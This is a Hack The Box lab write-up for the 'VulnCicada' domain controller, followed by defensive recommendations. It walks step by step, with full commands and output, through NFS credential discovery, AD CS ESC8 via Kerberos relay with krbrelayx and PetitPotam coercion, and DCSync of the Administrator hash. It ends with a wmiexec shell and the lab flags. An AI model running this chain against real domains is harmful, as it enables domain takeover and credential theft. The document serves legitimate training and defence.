# HTB - VulnCicada

**IP Address:** `10.129.234.48`  
**OS:** `Windows Server (Domain Controller)`  
**Difficulty:** `Medium`  
**Tags:** #ActiveDirectory #NFS #NTLMDisabled #Kerberos #ADCS #ESC8 #KerberosRelay #PetitPotam #DCSync

---
## Synopsis

VulnCicada is a Windows Domain Controller (`DC-JPQ225.cicada.vl`) with NTLM authentication disabled domain-wide, forcing Kerberos for every authenticated protocol. An unusual NFS export `/profiles` leaks domain usernames and a sticky-note password in `marketing.png`, yielding `Rosie.Powell:Cicada123`. Certipy confirms AD CS ESC8 (HTTP web enrollment). Classic NTLM relay fails; the working path registers a CredMarshalTargetInfo-style DNS A-record pointing at the attacker, runs `krbrelayx` in Kerberos relay mode against `/certsrv`, and coerces the DC with PetitPotam. The resulting Domain Controller certificate authenticates as `dc-jpq225$`, enabling DCSync of Administrator and a Kerberos `wmiexec` shell. Flags live on the Administrator desktop (both `user.txt` and `root.txt` in this lab layout).

---
## Skills Required

- Active Directory enumeration (SMB, LDAP, DNS, Kerberos)
- Basic NFS foothold thinking on Windows hosts
- Familiarity with AD CS concepts (ESC8 / web enrollment)

## Skills Learned

- Recognizing `NTLM:False` / `STATUS_NOT_SUPPORTED` and switching to Kerberos (`-k`, FQDN, `/etc/hosts`)
- Kerberos ESC8 using a marshaled DNS hostname + `krbrelayx` (no unconstrained delegation required)
- Coercing DC auth with PetitPotam / NetExec `coerce_plus`
- PKINIT auth from a machine certificate and Kerberos-only DCSync / remote execution

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.234.48
```



TTL `127` is consistent with a Windows host one hop away.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.234.48 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



Open ports include the usual AD DC set plus **2049/tcp (NFS)** and **80/tcp (IIS)**.

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,80,88,111,135,139,389,445,464,593,636,2049,3268,3269,3389,9389,49664,49668,56165,56166,56184,56259,56715,56943 10.129.234.48 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 53 | DNS | Simple DNS Plus |
| 80 | HTTP | Microsoft IIS 10.0 (default page) |
| 88 / 464 | Kerberos | Microsoft Kerberos |
| 111 / 2049 | RPC / NFS | rpcbind + NFS/mountd on Windows DC |
| 135 / 139 / 445 | MSRPC / SMB | Signing enabled and required |
| 389 / 636 / 3268 / 3269 | LDAP | Domain `cicada.vl`; CN `DC-JPQ225.cicada.vl` |
| 3389 | RDP | Terminal Services |
| 9389 | ADWS | Active Directory Web Services |

Map the FQDN early (required later for Kerberos):

```bash
echo '10.129.234.48 DC-JPQ225.cicada.vl cicada.vl DC-JPQ225' | sudo tee -a /etc/hosts
```

---
## 2. Service Enumeration

### 2.1 IIS Default Site

Confirm whether HTTP exposes an application beyond the stock IIS welcome page:

```bash
whatweb http://10.129.234.48
curl -isk http://10.129.234.48/ | head
```




Only the default IIS page is present — not the foothold surface.

---
### 2.2 SMB / RPC Null Sessions (NTLM Disabled)

Null sessions against SMB/RPC fail in a distinctive way: not “access denied”, but **not supported**. NetExec also reports `NTLM:False`:

```bash
rpcclient -U '' -N 10.129.234.48 -c 'enumdomusers;enumdomgroups'
smbclient -L 10.129.234.48 -N
nxc smb 10.129.234.48 --shares
```



This is the central constraint of the box: authenticated work must use **Kerberos** against the **FQDN**.

---
### 2.3 NFS `/profiles` Export

`showmount` reveals an NFS export available to everyone — unusual and high-ROI on a DC:

```bash
showmount -e 10.129.234.48
sudo mkdir -p /mnt/profiles
sudo mount -t nfs -o vers=3,nolock 10.129.234.48:/profiles /mnt/profiles
ls -la /mnt/profiles
```



Profile directory names become a clean username list:

```bash
ls -1 /mnt/profiles > users.txt
cat users.txt
```



Readable loot includes `Administrator/vacation.png` and `Rosie.Powell/marketing.png` (the latter may need `sudo cp` because of NFS UID mapping). `Documents` directories are not world-readable.

---
## 3. Foothold

### 3.1 Credential from `marketing.png`

Copy Rosie’s image off NFS (root may be required for the restrictive ACL) and open it:

```bash
sudo cp /mnt/profiles/Rosie.Powell/marketing.png ~/loot/
# view with feh / xdg-open / etc.
```

A yellow sticky note on the desk shows a cleartext password:


**Recovered:** `Rosie.Powell` / `Cicada123`

### 3.2 Kerberos Authentication and Share Enumeration

Password spray against the NFS user list shows only Rosie accepts `Cicada123`. Authenticating without `-k` against the IP returns `STATUS_NOT_SUPPORTED`; using the FQDN and Kerberos works:

```bash
nxc smb 10.129.234.48 -u 'Rosie.Powell' -p 'Cicada123' --shares
nxc smb DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k --shares
```



Notable shares: `CertEnroll` (READ — AD CS), `profiles$` (READ,WRITE), `SYSVOL`/`NETLOGON` (READ). Rosie is only in `Domain Users` and a group named `cicada`.

---
## 4. Privilege Escalation

### 4.1 AD CS Enumeration — ESC8

With domain credentials, Certipy finds HTTP web enrollment enabled on CA `cicada-DC-JPQ225-CA` (**ESC8**). No low-priv ESC1-style template is required for the intended path:

```bash
certipy-ad find -u 'Rosie.Powell@cicada.vl' -p 'Cicada123' \
  -dc-ip 10.129.234.48 -k -target DC-JPQ225.cicada.vl -stdout
```



```text
[!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
```

```bash
curl -sk -o /dev/null -w '%{http_code}\n' http://DC-JPQ225.cicada.vl/certsrv/
```



`/certsrv/` returns **401** (endpoint alive).

NTLM-based `ntlmrelayx` / Certipy relay against this ESC8 surface does not complete while NTLM is disabled. Coercion still reaches the attacker SMB listener, but there is no usable NTLM material to forward.

### 4.2 Kerberos ESC8 via Marshaled DNS + `krbrelayx`

The working technique registers a **CredMarshalTargetInfo**-style DNS label so the DC requests a Kerberos ticket for its own SPN while connecting TCP to the attacker host. Add only the short label (not the full FQDN as the dnsNode name):

```bash
# Attacker VPN IP (example)
ATTACKER=10.10.15.14

bloodyAD --host DC-JPQ225.cicada.vl -d cicada.vl \
  -u 'Rosie.Powell' -p 'Cicada123' -k \
  add dnsRecord 'DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' "$ATTACKER"

dig @10.129.234.48 DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA.cicada.vl A +short
```



Start `krbrelayx` **without** machine credentials so it runs in Kerberos relay mode (not unconstrained-delegation mode):

```bash
cd krbrelayx
sudo python3 ./krbrelayx.py \
  -t 'http://DC-JPQ225.cicada.vl/certsrv/certfnsh.asp' \
  --adcs --template DomainController \
  -v 'DC-JPQ225$'
```

Expect: `Running in kerberos relay mode because no credentials were specified.`

Then coerce the DC to the marshaled listener name:

```bash
nxc smb DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k \
  -M coerce_plus \
  -o LISTENER=DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA METHOD=petitpotam
```

Successful relay issues a Domain Controller certificate:

```text
[*] GOT CERTIFICATE!
[*] Writing PKCS#12 certificate to ./DC-JPQ225.pfx
```



### 4.3 PKINIT as `dc-jpq225$`, DCSync, Administrator Shell

Authenticate with the PFX and dump Administrator via DRSUAPI over Kerberos:

```bash
certipy-ad auth -pfx DC-JPQ225.pfx -dc-ip 10.129.234.48
# Writes dc-jpq225.ccache and prints the machine NT hash
```



```bash
export KRB5CCNAME=$PWD/dc-jpq225.ccache
impacket-secretsdump -k -no-pass \
  'cicada.vl/dc-jpq225$@DC-JPQ225.cicada.vl' -just-dc-user Administrator
```

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:85a0da53871a9d56b6cd05deda3a5e87:::
```



Request an Administrator TGT and open a remote shell (NTLM exec paths remain broken):

```bash
impacket-getTGT 'cicada.vl/Administrator' \
  -hashes ':85a0da53871a9d56b6cd05deda3a5e87' \
  -dc-ip 10.129.234.48

export KRB5CCNAME=$PWD/Administrator.ccache
impacket-wmiexec -k -no-pass 'cicada.vl/Administrator@DC-JPQ225.cicada.vl'
```

There is no local `C:\Users\Rosie.Powell` profile (folder redirection to `C:\profiles`). Both flags are on the Administrator desktop in this instance:

```cmd
type C:\Users\Administrator\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```



🏁 **User flag obtained** — `0308b29cba07e2e82a55ca04633a64a8`

🏁 **Root flag obtained** — `4561e5e818b0b078f87f7bed1c800f4f`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Discover NFS `/profiles`, enumerate usernames, recover `Cicada123` from `marketing.png`.
2. Authenticate as `Rosie.Powell` with Kerberos (`NTLM:False`).
3. Confirm AD CS ESC8 (HTTP `/certsrv`).
4. Add marshaled DNS A-record → attacker IP; coerce DC with PetitPotam into `krbrelayx` Kerberos relay → `DomainController` PFX.
5. PKINIT as `dc-jpq225$` → DCSync Administrator → Kerberos `wmiexec` → flags.

---
## Defensive Recommendations

- Do not expose NFS profile shares to unauthenticated clients; enforce auth and least privilege on redirected folders.
- Disable AD CS HTTP web enrollment or enforce HTTPS + EPA / channel binding; treat ESC8 as critical on CAs co-hosted with DCs.
- Keep NTLM disabled only as part of a broader hardening plan; monitor Kerberos coerce + anomalous DNS creations under DomainDnsZones.
- Restrict who can create DNS records and computer accounts (MAQ); alert on CredMarshal-looking dnsNode names.
- Avoid storing credentials in screenshots or sticky-note imagery inside user profiles.
